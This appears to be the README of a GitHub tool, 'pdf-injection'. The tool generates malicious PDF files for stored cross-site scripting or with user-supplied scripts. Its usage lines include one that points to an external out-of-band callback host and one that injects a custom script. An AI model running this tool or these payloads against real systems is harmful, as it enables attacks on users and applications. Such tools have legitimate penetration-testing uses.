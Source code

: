 # pdf-injection

How to install?
git clone URL

Example Usage?
python -h
python3 xss-pdf.py 
python3 xss-pdf.py -o 1 -u http://n1pze4owqnry5tzzqngb5.oastify.com
python3 xss-pdf.py -o 2 -sc app.alert(2) 

Option 1
creates malicous PDF files for stored xss vulnerability

Option 2
allows user to create own PDF file with their personal scripts

Open to new suggestions, please create an issue